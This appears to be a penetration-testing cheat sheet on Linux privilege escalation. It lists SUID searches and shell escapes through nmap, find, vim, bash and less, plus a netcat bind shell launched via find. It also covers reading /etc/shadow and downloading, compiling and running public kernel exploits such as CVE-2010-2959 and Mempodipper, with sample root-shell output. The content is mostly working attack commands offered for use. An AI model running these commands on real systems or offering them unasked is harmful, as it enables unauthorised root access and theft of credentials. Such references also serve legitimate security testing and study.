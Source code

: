 # Linux Elevation

### SUID

```bash
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

### nmap

Look for older versions that allow interactive use \(2.0.2 &gt; 5.21\)

```bash
nmap -v

nmap --interactive

nmap> !sh
sh-3.2# whoami
```

### find

```bash
touch pentestlab
find pentestlab -exec whoami \;

#bind shell - can change to reverse shell
find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;
```

### vim

```bash
vim.tiny /etc/shadow

vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

### bash

```bash
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)
```

### less or more

```bash
less /etc/passwd
!/bin/sh
```

### linux-local-enum script

```bash
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
http://www.securitysift.com/download/linuxprivchecker.py
http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

wget https://highon.coffee/downloads/linux-local-enum.sh chmod +x ./linux-local-enum.sh ./linux-local-enum.sh
```

### CVE-2010-2959

CAN BCM' Privilege Escalation - Linux Kernel &lt; 2.6.36-rc1 \(Ubuntu 10.04 / 2.6.32\)

[https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)

```bash
 wget -O exp.c http://www.exploit-db.com/download/14814
 $ gcc exp.c -o exp
 $ ./exp
 [+] launching root shell!
 # id
 uid=0(root) gid=0(root)
```

### CVE-2010-3904

Linux RDS Exploit - Linux Kernel &lt;= 2.6.36-rc8 [https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/)

### CVE-2012-0056

Mempodipper - Linux Kernel 2.6.39 &lt; 3.2.2 \(Gentoo / Ubuntu x86/x64\) [https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/)

```bash
wget -O exploit.c http://www.exploit-db.com/download/18411
gcc -o mempodipper exploit.c  
./mempodipper
```

### CVE-2016-5195

Dirty Cow - Linux Privilege Escalation - Linux Kernel &lt;= 3.19.0-73.8 [https://dirtycow.ninja/](https://dirtycow.ninja/) First existed on 2.6.22 \(released in 2007\) and was fixed on Oct 18, 2016



